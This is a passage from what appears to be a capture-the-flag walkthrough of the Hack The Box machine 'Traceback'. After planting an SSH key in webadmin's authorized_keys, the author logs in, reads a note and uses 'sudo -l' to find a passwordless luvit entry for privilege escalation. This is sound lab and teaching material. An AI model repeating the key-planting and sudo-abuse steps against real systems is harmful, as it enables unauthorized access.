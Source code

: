 Copy the webadmin.pub key in Authorized_keys.

![](/home/strawhack/Videos/Git/TraceBack/Image/8.png)

![](/home/strawhack/Videos/Git/TraceBack/Image/9.png)

With our public key copied in /home/webadmin/.ssh/authorized_keys, we can login as webadmin using SSH.

```css
ssh -i webadmin webadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Feb 27 06:29:02 2020 from 10.10.14.3
webadmin@traceback:~$ ls -la
total 44
drwxr-x--- 5 webadmin sysadmin 4096 Mar 16 04:03 .
drwxr-xr-x 4 root     root     4096 Aug 25  2019 ..
-rw------- 1 webadmin webadmin  105 Mar 16 04:03 .bash_history
-rw-r--r-- 1 webadmin webadmin  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 webadmin webadmin 3771 Aug 23  2019 .bashrc
drwx------ 2 webadmin webadmin 4096 Aug 23  2019 .cache
drwxrwxr-x 3 webadmin webadmin 4096 Aug 24  2019 .local
-rw-rw-r-- 1 webadmin webadmin    1 Aug 25  2019 .luvit_history
-rw-rw-r-- 1 sysadmin sysadmin  122 Mar 16 03:53 note.txt
-rw-r--r-- 1 webadmin webadmin  807 Aug 23  2019 .profile
drwxrwxr-x 2 webadmin webadmin 4096 Feb 27 06:29 .ssh
```

Checking the content of note.txt

```css
webadmin@traceback:~$ ls
note.txt
webadmin@traceback:~$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

Checking for sudo permission, we get

```ruby
webadmin@traceback:~$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```
